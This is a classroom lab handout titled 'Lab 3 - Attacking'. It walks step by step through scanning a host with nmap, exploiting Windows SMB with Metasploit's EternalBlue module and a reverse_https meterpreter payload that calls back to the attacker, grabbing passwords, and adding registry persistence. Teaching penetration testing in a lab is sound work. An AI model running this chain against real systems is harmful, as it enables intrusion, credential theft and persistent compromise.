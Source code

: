 
*****************
Lab 3 - Attacking
*****************

In this lab we’ll walk through a simple exploitation of a system from
start to finish. Some of the steps discussed on the attacker methodology
will be skipped due to restrictions of the example.

Steps
=====

1. Scan the target machine using nmap. 
   
   ::

    nmap -sT -sV -Pn -n -T4 <ip address>


2. Exploit the target using Metasploit. 
   
   ::

    msfconsole -q

a. Select exploit. 
   
   ::

    use exploit/windows/smb/ms17_010_eternalblue

b. Set options. 

   ::

    set rhost <ip address>

c. Set payload. 

   ::

    set payload windows/x64/meterpreter/reverse_https

d. Set options. 

   ::

    set lhost <local ip address>

    set lport 443

e. Exploit! 

   ::

    exploit

3. Internal reconnaissance

   a. Check which user

   b. Check where we landed on the filesystem

   c. Grab passwords

   d. Etc.

4. Setup persistence

   a. Registry key

  ::

   use exploit/windows/local/registry_persistence

b. Set session (where our exploit was) 

   ::

    set session 1

c. Exploit! 

   ::

    exploit
